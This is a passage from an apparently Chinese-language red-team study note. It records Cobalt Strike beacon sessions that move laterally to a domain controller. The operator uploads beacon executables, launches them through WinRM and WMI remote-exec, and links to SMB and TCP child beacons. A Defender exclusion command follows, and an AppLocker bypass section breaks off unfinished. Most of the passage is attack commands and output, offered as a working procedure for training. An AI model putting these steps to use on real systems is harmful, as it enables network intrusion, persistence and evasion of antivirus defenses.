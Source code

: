 [+] received output:
Started process 4312 on dc-2
beacon> link dc-2
[*] Tasked to link to \\dc-2\pipe\msagent_dc
[+] host called home, sent: 31 bytes
[+] established link to child beacon: 10.10.17.71
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661731130002.png)


也可以用tcp beacon，同样使用wmi触发，然后connet目标端口

```
beacon> upload C:\Payloads\beacon-tcp-4444.exe
[*] Tasked beacon to upload C:\Payloads\beacon-tcp-4444.exe as beacon-tcp-4444.exe
[+] host called home, sent: 311839 bytes
beacon> remote-exec winrm dc-2 cmd /c C:\Shares\Software\beacon\beacon-tcp-4444.exe
[*] Tasked beacon to run 'cmd /c C:\Shares\Software\beacon\beacon-tcp-4444.exe' on dc-2 via WinRM
[+] host called home, sent: 339 bytes
[+] received output:
#< CLIXML
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj><S S="Error">The system cannot find the path specified._x000D__x000A_</S><S S="Error">    + CategoryInfo          : NotSpecified: (The system cann...path specified.:String) [], RemoteException_x000D__x000A_</S><S S="Error">    + FullyQualifiedErrorId : NativeCommandError_x000D__x000A_</S><S S="Error">    + PSComputerName        : dc-2_x000D__x000A_</S><S S="Error"> _x000D__x000A_</S></Objs>
beacon> remote-exec wmi dc-2 C:\Shares\Software\beacon-tcp-4444.exe
[*] Tasked beacon to run 'C:\Shares\Software\beacon-tcp-4444.exe' on dc-2 via WMI
[+] host called home, sent: 4410 bytes
[+] received output:
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[+] received output:
Started process 3464 on dc-2
beacon> connect dc-2 4444
[*] Tasked to connect to dc-2:4444
[+] host called home, sent: 15 bytes
[+] established link to child beacon: 10.10.17.71
```



![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661731460113.png)


## 设置自己的Exclude文件夹

```
Set-MpPreference -ExclusionPath "<path>"
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661731798567.png)

# AppLocker Rule Bypasses

枚举applocker，教材给的例子是分析Registry.pol文件


但是如果已经有一个初始shell，那就有更简单的方法，只需要两行powershell

```